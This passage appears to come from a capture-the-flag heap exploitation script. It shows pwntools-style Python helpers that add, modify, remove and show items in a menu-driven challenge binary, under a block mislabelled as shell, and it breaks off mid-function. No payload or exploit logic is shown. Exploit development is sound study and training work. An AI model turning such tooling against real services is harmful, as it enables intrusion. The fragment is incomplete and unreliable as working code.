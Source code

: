 ```shell





def additem(length, name):

    r.recvuntil(":")

    r.sendline("2")

    r.recvuntil(":")

    r.sendline(str(length))

    r.recvuntil(":")

    r.sendline(name)





def modify(idx, length, name):

    r.recvuntil(":")

    r.sendline("3")

    r.recvuntil(":")

    r.sendline(str(idx))

    r.recvuntil(":")

    r.sendline(str(length))

    r.recvuntil(":")

    r.sendline(name)





def remove(idx):

    r.recvuntil(":")

    r.sendline("4")

    r.recvuntil(":")

    r.sendline(str(idx))





def show():

    r.recvuntil(":")

```